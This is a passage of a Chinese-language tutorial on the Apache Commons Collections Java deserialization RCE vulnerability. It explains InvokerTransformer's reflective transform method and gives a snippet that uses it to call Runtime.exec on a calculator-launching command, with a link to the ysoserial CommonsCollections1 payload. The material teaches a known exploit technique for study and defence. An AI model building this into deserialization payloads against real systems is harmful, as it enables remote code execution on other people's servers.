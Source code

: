 # Apache Commons Collections反序列化漏洞

`Apache Commons`是`Apache`开源的Java通用类项目在Java中项目中被广泛的使用，`Apache Commons`当中有一个组件叫做`Apache Commons Collections`，主要封装了Java的`Collection(集合)`相关类对象。本节将逐步详解`Collections`反序列化攻击链(仅以`TransformedMap`调用链为示例)最终实现反序列化`RCE`。

## InvokerTransformer

在`Collections`中提供了一个非常重要的类: `org.apache.commons.collections.functors.InvokerTransformer`，这个类实现了:`java.io.Serializable`接口。2015年有研究者发现利用`InvokerTransformer`类的`transform`方法可以实现Java反序列化`RCE`，并提供了利用方法:[CommonsCollections1.java](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections1.java)。

`InvokerTransformer`类实现了`org.apache.commons.collections.Transformer`接口,`Transformer`提供了一个对象转换方法：`transform`，主要用于将输入对象转换为输出对象。`InvokerTransformer`类的主要作用就是利用Java反射机制来创建类实例。

**`InvokerTransformer`类的`transform`方法：**

```java
public Object transform(Object input) {
    if (input == null) {
        return null;
    }
    try {
      	// 获取输入类的类对象
        Class cls = input.getClass();
      
      	// 通过输入的方法名和方法参数，获取指定的反射方法对象
        Method method = cls.getMethod(iMethodName, iParamTypes);
      
      	// 反射调用指定的方法并返回方法调用结果
        return method.invoke(input, iArgs);
            
    } catch (Exception ex) {
        // 省去异常处理部分代码
    }
}
```

**使用`InvokerTransformer`实现调用本地命令执行方法：**

```java
public static void main(String[] args) {
  	// 定义需要执行的本地系统命令
		String cmd = "open -a Calculator.app";
  
    // 构建transformer对象
    InvokerTransformer transformer = new InvokerTransformer(
          "exec", new Class[]{String.class}, new Object[]{cmd}
    );

    // 传入Runtime实例，执行对象转换操作
    transformer.transform(Runtime.getRuntime());
}
```

